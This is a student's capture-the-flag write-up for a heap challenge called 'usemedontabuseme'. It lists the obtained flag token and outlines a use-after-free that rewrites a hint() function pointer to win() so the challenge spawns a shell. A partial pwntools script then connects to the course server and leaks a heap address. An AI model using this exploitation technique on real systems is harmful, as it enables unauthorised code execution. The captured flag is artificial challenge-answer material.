z5256275 Lachlan Waugh
==========================================================

usemedontabuseme
==========================================================
Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy11c2VtZWRvbnRhYnVzZW1lIiwiaXAiOiIxMDEuMTY0LjMzLjIxOSIsInNlc3Npb24iOiIwZmZkMTIzNi02NGZjLTQyYzYtOTkxZS05ZDUwZTI0ZDM0OTMifQ.Rk7Klo-3-6u9KVs8TLXLci8lAT-azWcYfmozt61XJho}

General overview:
----------------------------------------------------------
1. Use-after free allows for arbitrary memory writes. If you change where the next pointer in a free block is you can change where malloc() will allocate.
2. By writing to an incorrect location you're able to overwrite the pointer to the hint() function in one of the clones to point to win().
3. When invoking the hint it will instead pop the shell.

Script used:
----------------------------------------------------------

```python
#!/usr/bin/env python2

from pwn import *

global p

def make(id, name):
    p.sendlineafter("Choice: ", "a")
    p.sendlineafter("ID: ", id)
    p.sendlineafter("8): ", name)

def kill(id):
    p.sendlineafter("Choice: ", "b")
    p.sendlineafter("ID: ", id)

def edit(id, name):
    p.sendlineafter("Choice: ", "c")
    p.sendlineafter("ID: ", id)
    p.sendlineafter("8): ", name)

def view(id):
    p.sendlineafter("Choice: ", "d")
    p.sendlineafter("ID: ", id)
    p.recvuntil("Name: ")
    return p.recvuntil("-", drop=True)[:4]

def hint(id):
    p.sendlineafter("Choice: ", "h")
    p.sendlineafter("ID: ", id)

p = remote("plsdonthaq.me", 7000)

win = p32(0x08048b7c)

make("0", "abcdef")
make("1", "ABCDEF")
make("2", "123456")

kill("1")
kill("2")
heap = u32(view("2"))

```